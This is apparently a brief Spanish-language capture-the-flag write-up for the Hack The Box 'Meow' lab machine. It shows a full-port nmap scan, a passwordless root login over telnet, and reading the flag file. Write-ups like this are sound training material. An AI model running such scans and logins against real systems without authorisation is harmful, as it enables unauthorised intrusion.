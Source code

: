 # 🐱 HTB - Meow

**IP:** 10.129.20.240  
**Dificultad:** Muy fácil  
**Categoría:** Starting Point  
**Autor:** miguelt86

---

## 🔎 Escaneo Nmap

```bash
nmap -sS -Pn -p- -T4 10.129.20.240

## Resultado

23/tcp open  telnet

💻 Explotación
Acceso sin credenciales por Telnet:

telnet 10.129.20.240

Conexión directa como root.

📂 Verificando flag:

ls
cat flag.txt

✔️ Bandera capturada correctamente.

📡 Herramientas utilizadas
nmap

telnet

openvpn

Script propio: htbcheck.sh

🏁 Resultado
✅ Bandera capturada
🎖️ Ver logro en HTB

✍️ Autor
GitHub: @Migueltejada86
HTB Profile: miguelt86

